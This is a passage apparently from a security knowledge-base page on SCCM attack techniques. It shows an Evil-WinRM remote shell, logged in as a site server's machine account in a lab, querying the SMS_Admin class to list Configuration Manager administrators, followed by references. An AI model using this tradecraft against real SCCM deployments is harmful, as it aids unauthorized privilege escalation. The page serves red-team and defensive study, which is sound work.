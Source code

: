     Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\SCCM2$\Documents> get-ciminstance -ClassName SMS_Admin -Namespace root\sms\site_ABC


    AccountType       : 0
    AdminID           : 16777217
    AdminSid          : S-1-5-21-4004054868-2969153893-1580793631-500
    Categories        :
    CategoryNames     : {All}
    CollectionNames   : {All Systems, All Users and User Groups}
    CreatedBy         : LAB\Administrator
    CreatedDate       : 2/2/2024 11:56:51 PM
    DisplayName       :
    DistinguishedName :
    ExtendedData      :
    IsCovered         :
    IsDeleted         : False
    IsGroup           : False
    LastModifiedBy    : LAB\Administrator
    LastModifiedDate  : 2/2/2024 11:56:51 PM
    LogonName         : LAB\Administrator
    Permissions       :
    RoleNames         : {Full Administrator}
    Roles             :
    SKey              : ABCS-1-5-21-4004054868-2969153893-1580793631-500
    SourceSite        : ABC
    PSComputerName    :
    ```

## References
- Microsoft, [Prerequisites for installing Configuration Manager sites](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/install/prerequisites-for-installing-sites#bkmk_expand)
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
